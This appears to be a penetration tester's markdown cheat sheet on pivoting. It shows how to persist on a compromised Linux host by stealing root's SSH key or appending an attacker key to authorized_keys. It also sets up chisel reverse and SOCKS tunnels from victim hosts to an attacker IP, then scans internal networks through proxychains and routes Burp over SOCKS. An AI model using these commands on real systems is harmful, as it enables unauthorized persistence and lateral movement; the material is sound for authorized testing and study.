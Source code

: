 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Persist

It is important to establish persistence before moving forward with actions on objectives.

### Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwarding


 <local-interface>:<local-port>:<remote-host>:<remote-port>

  which does  port forwarding, sharing 
  
   
clients <local-interface>:<local-port>
on remote server's <remote-host>:<remote-port>

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now attacker can access victims port external 8888 on it localhost port 443

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

Attacker (1.1.1.1:8000) --------> Victim Pivot (client forwards input from attacker to next victim ) --------> Next Victim (3.3.3.4)

./chisel server -p 8000 --reverse on local 
./chisel client 1.1.1.1:8000 R:80:3.3.3.4:80 on the target. 

This will open a listener on port 80 on my Kali box, and any connections to that port will be forwarded to the target, which will pass them to port 80 on 3.3.3.4.

#### Dynamic reverse forwarding

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

./chisel server -p 3333 --reverse --socks5

./chisel_lin client 172.16.40.5:3333 R:7777:socks

sudo vim /etc/proxychains4.conf

socks5 127.0.0.1 3333

proxychains nmap -F 10.185.10.0/24


## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

